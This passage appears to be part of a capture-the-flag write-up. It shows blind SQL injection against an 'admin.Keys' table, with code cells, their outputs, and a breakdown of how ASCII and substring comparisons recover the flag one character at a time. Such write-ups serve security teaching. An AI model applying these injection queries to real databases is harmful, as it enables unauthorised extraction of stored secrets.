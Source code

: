 



    [None, None, None, None, None, None]



Hmm, that might be an issue when we leak the flag later if the flag is case sensitive. Anyways, let's see what inside the `admin.Keys` table.


```python
# There are rows inside "admin.Keys"
query_challenge_union("admin.Keys")
```




    (True, 'Feed with same title already exists!', <Response [500]>)




```python
# There is one key that begins with "govtech-csg{"!!!!
query_challenge_union(
    "admin.Keys",
    "Keys.key LIKE 'govtech-csg{%'"
)
```




    (True, 'Feed with same title already exists!', <Response [500]>)



Bingo, there's our flag.

To get pass the case insensitive `LIKE`, we can check the contents of the key one character by one character, converting them with the `ASCII()` operator to force a case-sensitive comparison. Specifically, we use a query that looks like:


```python
# 1st character of flag is 'g'
query_challenge_union(
    "admin.Keys",
    "Keys.key LIKE 'govtech-csg{%' AND ASCII(RIGHT(LEFT(Keys.key, 1), 1)) = ASCII('g')"
)
```




    (True, 'Feed with same title already exists!', <Response [500]>)



Let's break down the SQLi:
- `Keys.key LIKE 'govtech-csg{%'` filters all keys to only the key that looks like a flag
- `RIGHT(LEFT(Keys.key, X), 1))` picks the X-th character (1-indexed) of the key
- `ASCII(...)` converts the Xth character to its respective ASCII code
- `ASCII(...) = ASCII(Y)` compares the X-th character's ASCII code to the ascii code of `Y` (or any other character we use)

